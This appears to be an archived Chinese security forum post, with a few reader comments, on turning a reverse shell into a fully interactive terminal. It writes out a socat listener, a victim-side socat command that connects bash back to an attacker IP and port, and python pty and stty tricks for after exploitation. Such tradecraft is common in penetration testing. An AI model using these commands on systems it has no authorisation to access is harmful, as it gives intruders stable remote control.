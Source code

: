 ```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

+ Victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

__Using stty options__

+ In reverse shell

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

+ In Kali

```
$ stty raw -echo
$ fg
```

+ In reverse shell

```
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

我想精于 Linux 的同学应该还会有其他更好的技巧吧？😏

<img src="https://images.xiaomiquan.com/Fj_Ou8qWblsD8PQbMkbsiFOsbVNk?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1843200000&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:m9ZuUhEYmVExE9s4WOF_-76vOkQ=" width="50%" height="50%" align="middle"/>

<img src="https://images.xiaomiquan.com/FvH1DFbKMjFYlnJOg75OJTcHz1YO?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1843200000&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:HXPfrhY8yBHQnFbwYRbCWl2s7hE=" width="50%" height="50%" align="middle"/>

<img src="https://images.xiaomiquan.com/Fig865CAfX1G7zfSlHpk6qHQwWgE?imageMogr2/auto-orient/thumbnail/800x/format/jpg/blur/1x0/quality/75&e=1843200000&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:Q7-DgFAG9jPiRq6mRqmY5BwXZFU=" width="50%" height="50%" align="middle"/>


...

<img src="https://file.xiaomiquan.com/74/dd/74dd868df857e0ffec8613ae99f0891f0e7088f3533e8bd16f9614477984d3f6.jpg" width="25px"/> __‍迷途の狼__: 不错的技巧，不过linux下监听win下反弹的cmd 也是很蛋疼 一个字符输错 又得重新输入 还乱码

<img src="https://file.xiaomiquan.com/b4/82/b482e6485bf4a4d6d6fdd738268a244a4dc592e0d9241454f50752345ad531d7.jpg" width="25px"/> __dusts__: 不精通linux的想知道其他更好的技巧。。。。要是环境里没有python,没有socat，该如何。。。

<img src="https://file.xiaomiquan.com/96/86/9686aeac0faa9aa0efc8cc53e1617273dd5e53e7a0425b9f06b68f806f03ca15.jpg" width="25px"/> __余弦@ATToT__ replies to <img src="https://file.xiaomiquan.com/b4/82/b482e6485bf4a4d6d6fdd738268a244a4dc592e0d9241454f50752345ad531d7.jpg" width="25px"/> __dusts__: 没注意到第三种方式？


...

---

<img src="https://file.xiaomiquan.com/96/86/9686aeac0faa9aa0efc8cc53e1617273dd5e53e7a0425b9f06b68f806f03ca15.jpg" width="25px"/> __余弦@ATToT__ on 2017-08-24:
